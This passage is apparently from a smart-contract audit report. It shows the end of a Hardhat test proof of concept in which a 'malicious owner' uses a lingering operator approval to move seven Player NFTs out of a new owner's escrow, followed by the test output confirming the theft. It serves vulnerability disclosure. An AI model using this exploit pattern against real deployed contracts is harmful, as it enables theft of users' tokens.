```solidity
            );
        }

        console.log(
            "Malicious owner transfers the Players from the newOwner's escrow to himself"
        );

        for (let i = 0; i < generationIds.length; i++) {
            console.log("Transferring Player ", i, " to Malicious Owner");
            await players
                .connect(owner)
                .transferFrom(escrow.address, owner.address, i);
        }

        for (let i = 0; i < generationIds.length; i++) {
            console.log(
                "Owner of Player ",
                i,
                " is ",
                await players.ownerOf(i)
            );
        }
    });
});
``` 

Resulting in the output:

```shell
$ npx hardhat test --grep Attack


  Attack
Owner address:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
New Owner address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8       
Escrow address:  0xE451980132E65465d0a498c53f0b5227326Dd73F


Approve the Malicious Owner as operator on Escrow for Player contract
Ownership of Club 7 changes from Owner to newOwner
Mint a new Player for the newOwner
Previous Balance:  0 New Balance:  7
Owner of Player  0  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  1  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  2  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  3  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  4  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  5  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Owner of Player  6  is  0xE451980132E65465d0a498c53f0b5227326Dd73F
Malicious owner transfers the Players from the newOwner escrow to himself
Transferring Player  0  to Malicious Owner
Transferring Player  1  to Malicious Owner
Transferring Player  2  to Malicious Owner
Transferring Player  3  to Malicious Owner
Transferring Player  4  to Malicious Owner
Transferring Player  5  to Malicious Owner
Transferring Player  6  to Malicious Owner
Owner of Player  0  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  1  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  2  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  3  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  4  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  5  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Owner of Player  6  is  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
```